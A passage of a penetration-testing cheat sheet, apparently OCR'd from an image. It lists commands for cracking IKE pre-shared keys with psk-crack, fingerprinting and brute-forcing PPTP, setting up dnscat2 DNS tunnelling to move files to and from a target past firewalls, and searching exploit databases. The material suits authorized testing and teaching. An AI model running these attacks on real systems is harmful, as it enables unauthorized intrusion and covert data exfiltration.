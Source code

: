 pskcrack
psk-crack -b 5 TARGET-IPkey
psk-crack -b 5 --charset="01233456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz" 192-168-207-134key
psk-crack -d /path/to/dictionary-file TARGET-IP-key
PPTP Hacking
Identifying PPTP, it listens on TCP: 1723

NMAP PPTP Fingerprint:
nmap –Pn -sV -p 1723 TARGET(S)
PPTP Dictionary Attack
thc-pptp-bruter -u hansolo -W -w /usr/share/wordlists/nmap.lst
DNS Tunneling
Tunneling data over DNS to bypass firewalls.

dnscat2 supports “download” and “upload” commands for getting files (data and programs) to and from the target machine.

Attacking Machine
Installtion:

apt-get update
apt-get -y install ruby-dev git make g++
gem install bundler
git clone https://github.com/iagox86/dnscat2.git
cd dnscat2/server
bundle install
Run dnscat2:

ruby ./dnscat2.rb
dnscat2> New session established: 1422
dnscat2> session -i 1422
Target Machine:

https://downloads.skullsecurity.org/dnscat2/ https://github.com/lukebaggett/dnscat2-powershell/

dnscat --host <dnscat server_ip>
BOF / Exploit
Exploit Research
Find exploits for enumerated hosts / services.

COMMAND	DESCRIPTION
searchsploit windows 2003 | grep -i local

Search exploit-db for exploit, in this example windows 2003 + local esc

site:exploit-db.com exploit kernel <= 3

Use google to search exploit-db.com for exploits

grep -R "W7" /usr/share/metasploit-framework
/modules/exploit/windows/*

Search metasploit modules using grep - msf search sucks a bit

Searching for Exploits
Install local copy of exploit-db:
